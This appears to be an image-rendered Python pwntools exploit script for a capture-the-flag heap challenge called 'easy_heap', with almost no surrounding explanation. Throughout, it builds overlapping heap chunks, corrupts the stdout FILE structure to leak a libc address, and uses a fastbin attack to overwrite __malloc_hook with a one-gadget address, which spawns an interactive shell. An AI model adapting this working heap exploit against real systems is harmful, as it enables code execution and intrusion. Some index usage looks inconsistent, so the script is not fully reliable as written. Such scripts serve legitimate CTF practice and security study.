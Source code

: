 ```py
    #got 0x240 unsorted bin

    Alloc(p,0x88)#0
    Alloc(p,0x50)#3 overlap 2
    Alloc(p,0x48)#5
    Alloc(p,0xf0)#6
    Fill(p,5,'a'*0x40+p64(0x140))
    Delete(p,0)
    Delete(p,6)
    #
    Delete(p,2)
    Alloc(p,0xc0)#0
    Alloc(p,0x20)#2
    Alloc(p,0xf0)#6
    Alloc(p,0x30)#7
    Delete(p,3)
    #
    payload = 'a'*0x30+p64(0)+p64(0x71)+'\xdd\x25\n'
    Alloc(p,0x50)#3
    Fill(p,3,payload)
    log.success('ready to malloc fake chunk')
    Alloc(p,0x60)#8
    Alloc(p,0x60)#9
    Fill(p,9,'\x00'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00'+'\n')

    p.recvuntil('\x00\x18\xad\xfb')
    p.recvn(28)
    libc_addr = u64(p.recvn(8))
    log.info('libc addr => ' + hex(libc_addr))
    libc_base = libc_addr - 0x3c5600
    log.info('libc base => ' + hex(libc_base))
    malloc_hook = libc.symbols['__malloc_hook']
    target_addr = libc_base + malloc_hook - 0x23
    log.success('malloc hook addr => ' + hex(target_addr))
    #get shell
    shell_addr = libc_base + gadgets[2]
    Alloc(p,0x10)#10
    Alloc(p,0xf0)#11
    Delete(p,10)
    log.info('before to overwrite next chunk')
    Alloc(p,0x18)#10
    Fill(p,10,'a'*0x10+p64(0x60))
    #fast bin attack,modify __malloc_hook
    Delete(p,8)
    Delete(p,3)
    Alloc(p,0x50)#3
    Fill(p,3,'a'*0x30+p64(0)+p64(0x71)+p64(target_addr)+'\n')
    Alloc(p,0x60)#8
    payload = '\x00'*0x13 + p64(shell_addr) + '\n'

    Alloc(p,0x60)#9
    Fill(p,12,payload)
    gdb.attach(p)
    #trigger

    Delete(p,11)


    p.interactive()

if debug:
    p = process('./easy_heap')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
```